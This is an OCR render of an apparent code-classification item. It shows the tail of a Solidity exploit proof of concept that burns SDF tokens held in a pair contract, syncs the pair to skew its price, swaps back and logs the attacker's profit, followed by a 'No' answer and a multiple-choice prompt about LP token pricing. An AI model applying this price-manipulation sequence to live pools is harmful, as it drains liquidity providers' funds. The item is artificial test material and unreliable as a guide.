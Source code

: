 │                                                                                                                                                                                                                                                      │
│         address(WBNB).call{value: 0.01 ether}("");                                                                                                                                                                                                   │
│         WBNBToSDF();                                                                                                                                                                                                                                 │
│         SDF.burn(address(Pair), SDF.balanceOf(address(Pair)) - 1);                                                                                                                                                                                   │
│         Pair.sync();                                                                                                                                                                                                                                 │
│         SDFToWBNB();                                                                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│          emit log_named_decimal_uint(                                                                                                                                                                                                                │
│             "[End] Attacker WBNB balance after exploit",                                                                                                                                                                                             │
│             WBNB.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │